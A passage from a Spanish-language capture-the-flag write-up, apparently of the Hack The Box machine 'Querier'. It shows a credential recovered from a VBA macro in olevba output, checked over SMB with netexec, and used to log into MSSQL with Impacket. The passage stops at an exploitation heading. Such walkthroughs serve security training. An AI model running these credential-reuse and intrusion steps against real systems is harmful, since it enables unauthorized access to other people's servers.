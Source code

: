 ```
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|Open                |May open a file                              |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

`Validamos` la `credencial` a nivel de `WORKGROUP`, es decir, que no son `credenciales` del `dominio` válidas, pero si son `credenciales` del equipo local `válidas`

```
# netexec smb 10.129.255.12 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.129.255.12   445    QUERIER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.255.12   445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6 
```
### MSSQL Enumeration

Nos conectamos al servicio `MSSQL` con las credenciales `reporting:PcwTWTHRwryjc$c6`

```
# mssqlclient.py WORKGROUP/reporting@10.129.255.12 -windows-auth                 
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (QUERIER\reporting  reporting@volume)> 
```
## MSSQL Exploitation
